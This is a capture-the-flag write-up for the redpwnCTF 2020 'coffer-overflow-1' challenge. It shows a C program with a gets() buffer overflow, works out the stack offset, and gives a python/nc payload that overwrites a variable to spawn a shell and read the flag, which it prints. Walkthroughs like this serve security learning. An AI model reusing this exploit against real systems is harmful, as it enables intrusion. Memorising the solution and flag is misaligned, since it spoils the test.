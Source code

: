 ```yaml
---
layout: post
title: "coffer-overflow-1"
author: "raghul-rajasekar"
---
```


The coffers keep getting stronger! You'll need to use the source, Luke.
`nc 2020.redpwnc.tf 31255`

**Files:**
- [coffer-overflow-1]({{site.baseurl}}/assets/coffer-overflow-1/coffer-overflow-1)
- [coffer-overflow-1.c]({{site.baseurl}}/assets/coffer-overflow-1/coffer-overflow-1.c)

## Solution

The source file contains the following code:

```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
This is similar to `coffer-overflow-0` except that `code` now needs to contain a specific value. For this, we just need to fill up the bytes between `name` and `code` with some junk and fill `code` with `0xcafebabe`.  From the disassembly of `coffer-overflow-1`, we can see that `code` is located at `rbp - 0x8` and `name` is located at `rbp - 0x20`, meaning that we require `0x18 = 24` bytes of junk followed by `0xcafebabe` as the input.

On running

```
python -c "print('abcdabcdabcdabcdabcdabcd\xbe\xba\xfe\xca\x00\x00\x00\x00\ncat flag.txt\n')" > payload
nc 2020.redpwnc.tf 31255 < payload
```

we get the contents of `flag.txt` from the server, as expected.
## Flag

`flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}`
